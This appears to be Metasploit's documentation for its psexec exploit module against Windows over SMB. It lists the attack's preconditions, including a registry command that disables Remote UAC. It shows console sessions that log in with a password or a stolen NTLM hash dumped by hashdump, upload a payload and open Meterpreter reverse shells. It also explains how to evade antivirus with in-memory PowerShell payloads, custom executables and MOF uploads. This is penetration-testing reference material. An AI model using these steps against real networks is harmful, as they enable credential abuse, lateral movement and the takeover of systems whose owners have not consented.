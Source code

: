 ## Vulnerable Application
PsExec is one of the most popular exploits against Microsoft Windows. It is a great way to test password security and demonstrate how a
stolen password could lead to a complete compromise of an entire corporate network.

To be able to use `exploit/windows/smb/psexec`:

1. A valid username and password must be set.
1. The firewall must allow SMB traffic.
1. The remote Windows machine's network security policy must allow it. See the "Disabling Remote UAC" section below.

### Disabling Remote UAC
If the specified account is a local Administrator and the target is Windows Vista or newer, then "Remote UAC" must be
disabled (the `DWORD` value
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` must be 1).
See [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy][1] for more information. Without this setting, the
server will respond with `STATUS_ACCESS_DENIED` and PsExec will fail.

Set this registry with the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential using the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter >
```

## Options

By default, using exploit/windows/smb/psexec can be as simple as setting the RHOST option, and you're ready to go. But in reality, you will
probably need to at least configure:

### SMBUser

This is a valid Windows username.

### SMBPass

This can be either the plain text version or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario using psexec is that attackers usually begin by breaking into a box, dumping the hashes, and using
some of those hashes to log into other boxes on the network using psexec. So in that scenario, with the following stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

You can simply copy and paste it to the SMBPass option in psexec and get a session without needing to crack the hash:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter >
```

**Automatic Target**

There are multiple targets available for exploit/windows/smb/psexec. The Automatic target is the default target. If the  Automatic target
detects Powershell on the remote machine, it will try Powershell, otherwise it uses the natie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded in it. Since this approach does not
leave anything on disk, it is a very powerful way to evade antivirus. However, older Windows machines might not support Powershell by
default.

Because of this, you will probably want to use the Automatic target setting. The automatic mode will check if the target supports
Powershell before it tries it; the manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (which can be modified with the
SMBSHARE datastore option), and then execute it with psexec.

This approach is generally reliable, but has a high chance of getting caught by antivirus on the target. To counter this, you can try to
use a template by setting the EXE::Path and EXE::Template datastore options. Or, you can supply your own custom EXE by setting the
`EXE::Custom` option.

**MOF Upload Target**

The [MOF](https://docs.metasploit.com/docs/development/developing-modules/libraries/how-to-use-wbemexec-for-a-write-privilege-attack-on-windows.html) target
technically does not use psexec; it does not explicitly tell Windows to execute anything. All it does is upload two files: the payload
(exe) in SYSTEM32 and a managed object format file in SYSTEM32\wbem\mof\ directory. When Windows sees the MOF file in that directory, it
automatically runs it. Once executed, the code inside the MOF file basically tells Windows to execute our payload in SYSTEM32, and you get
a session.

Although it's a neat trick, Metasploit's MOF library only works against Windows XP and Windows Server 2003. And since it writes files to
disk, there is also a high chance of getting caught by antivirus on the target.

The best way to counter antivirus is still the same. You can either use a different template by setting the EXE::Path and EXE::Template
datastore options or you can supply your own custom EXE by setting the EXE::Custom option.

**Command**

The command target causes the psexec operation to execute an operating system command. This can either be a `cmd/windows/` payload provided
by Metasploit, or the user can specify their own by using the `cmd/windows/generic` payload and setting `CMD`. The output of the command
will be written to a file and then retrieved so that it is accessible. If the command does not immediately return, then reading the output
will fail.

[1]: https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/

